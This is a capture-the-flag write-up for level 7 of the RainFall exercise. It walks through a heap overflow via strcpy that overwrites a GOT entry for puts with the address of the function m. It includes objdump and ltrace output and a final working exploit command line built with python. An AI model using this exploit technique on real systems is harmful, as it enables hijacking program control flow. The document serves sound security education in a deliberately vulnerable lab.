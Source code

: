 Like the previous level before we start by opening the file in [dogbolt](https://dogbolt.org/).

Here we can see that it use `malloc` and `strcpy`. We know that `strcpy` is not secure so let's try to use it to call the `m` function.
Here is what we will try to do :
<img src="assets/malloc_schema.png">

After analyzing the code we see that `v5` is after `v6`
So with the first `strcpy`  We will try to overflow on `v5` to overwrite the address of the second `strcpy` destination.
In the second `strcpy` we will write the address of `m` in the previous defined destination.
Ok we will try to put the address of `m` in a function call after `fgets` here `puts`

Let's find some addresses :

- address of `m` : 
```Shell
level7@RainFall:~$ objdump -t level7 
...
08049960 g     O .bss   00000050              c
080484f4 g     F .text  0000002d              m
08049940 g       *ABS*  00000000              __bss_start
...
```
Address of `m` : `080484f4`
In little endian : `\xf4\x84\x04\x08`

- address of `puts` (in the GOT) : 

```Shell
level7@RainFall:~$ objdump -R level7 

level7:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049904 R_386_GLOB_DAT    __gmon_start__
08049914 R_386_JUMP_SLOT   printf
08049918 R_386_JUMP_SLOT   fgets
0804991c R_386_JUMP_SLOT   time
08049920 R_386_JUMP_SLOT   strcpy
08049924 R_386_JUMP_SLOT   malloc
08049928 R_386_JUMP_SLOT   puts
0804992c R_386_JUMP_SLOT   __gmon_start__
08049930 R_386_JUMP_SLOT   __libc_start_main
08049934 R_386_JUMP_SLOT   fopen
```
Address of `puts` : `08049928`
In little endian : `\x28\x99\x04\x08`

Now let's find the last thing (the offset). For this we will use `ltrace` with a [pattern](https://wiremask.eu/tools/buffer-overflow-pattern-generator) and check what do we have at the second `strcpy` destination:
```Shell
level7@RainFall:~$ ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag AAAA
__libc_start_main(0x8048521, 3, 0xbffff724, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                                        = 0x0804a008
malloc(8)                                                                                        = 0x0804a018
malloc(8)                                                                                        = 0x0804a028
malloc(8)                                                                                        = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...)                                        = 0x0804a018
strcpy(0x37614136, "AAAA" <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```
Pattern used : `Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5A`
Offset : 20

Everything put together, give us :
[padding to overflow][address of `puts`][address of `m`]
```Shell
./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
```